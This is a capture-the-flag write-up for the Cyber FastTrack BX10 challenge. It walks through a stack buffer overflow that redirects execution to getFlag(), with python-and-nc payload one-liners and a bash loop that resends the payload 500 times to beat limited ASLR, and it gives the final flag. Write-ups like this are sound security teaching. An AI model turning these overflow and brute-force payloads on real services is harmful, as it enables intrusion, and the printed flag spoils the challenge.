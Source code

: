 # Cyber FastTrack Spring 2020- BX10 Solution
In this challenge, we use buffer overflow to display the flag.\
BX10_1.PNG\
![image info](BX10_1.PNG)
* This is the challenge for BX10.

BX10_2.PNG\
![image info](BX10_2.PNG)
* if we put in a lot of inputs, such as 26 characters, it prints out `Segmentation fault EIP` error message and then a message of `Backtrace in main(), test call getFlag() at` an address.
* In my case, I have `Segmentation falut EIP 0x45454545` and `Backtrace in main(), test call getFlag() at 0x8fccd65`
* We need to change the EIP or the return address to 0x8fccd65 in order to execute the getFlag() function.

BX10_3.PNG\
![image info](BX10_3.PNG)
* It was similar to [BM02](https://github.com/koc777/CyberFastTrack_Spring2020/tree/main/BM02). We send a payload to the server and see what it returns
* We tried 30 characters of 'E' and the desired return address.
```python
python -c "print 'E'*30+'\x65\xcd\xfc\x08'" | nc bx10.allyourbases.co 9015
```
* We tried 25 characters of 'E' and the desired return address.
```python
python -c "print 'E'*25+'\x65\xcd\xfc\x08'" | nc bx10.allyourbases.co 9015
```
* We used 20 characters of 'E' and then the return address. We finally changed the EIP address to 0x8fccd65.
```python
python -c "print 'E'*20+'\x65\xcd\xfc\x08'" | nc bx10.allyourbases.co 9015
```
* Notice that, the getFlag() address is different every time we send the payload to the server. It is because the developers have enabled ASLR which is common in software. However, it appears that the address space is limited because the getFlag() address would repeat if we send a large amount of payload to the server.

BX10_4.PNG\
![image info](BX10_4.PNG)
* Write a bash script that repeat that process of sending the payload to the server and then output the result to a text file 500 times.
```python
#!/bin/bash
for i in {0..500}
do
  python -c "print 'E'*20+'\x65\xcd\xfc\x08'" | nc bx10.allyourbases.co 9015 >> OUTPUT.txt
done
```

BX10_5.PNG\
![image info](BX10_5.PNG)
* Search for `FLAG:` and you will find the flag `postman_stack`